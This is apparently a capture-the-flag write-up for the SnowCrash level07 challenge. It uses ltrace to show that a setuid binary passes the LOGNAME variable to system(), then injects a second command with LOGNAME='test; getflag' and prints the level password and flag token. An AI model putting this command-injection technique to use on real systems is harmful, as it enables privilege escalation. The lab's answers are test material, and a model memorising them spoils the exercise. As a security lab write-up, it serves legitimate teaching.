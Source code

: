 level07:wiok45aaoguiboiki2tuin6ub

`scp -P 4242 scp://level07@192.168.1.88/level07 level07`

- `strings level07`
/bin/echo %s 
;*2$"

```shell
level07@SnowCrash:~$ ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff804, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                                                            = 2007
geteuid()                                                                                                            = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                                  = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                                  = 0
getenv("LOGNAME")                                                                                                    = "level07"
asprintf(0xbffff754, 0x8048688, 0xbfffff4f, 0xb7e5ee55, 0xb7fed280)                                                  = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 0
```

We can spot the `getenv("LOGNAME")`
```shell
level07@SnowCrash:~$ export LOGNAME=test
level07@SnowCrash:~$ ./level07 
test
```

modification works

```shell
level07@SnowCrash:~$ export LOGNAME="test; getflag"
level07@SnowCrash:~$ ./level07 
test
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```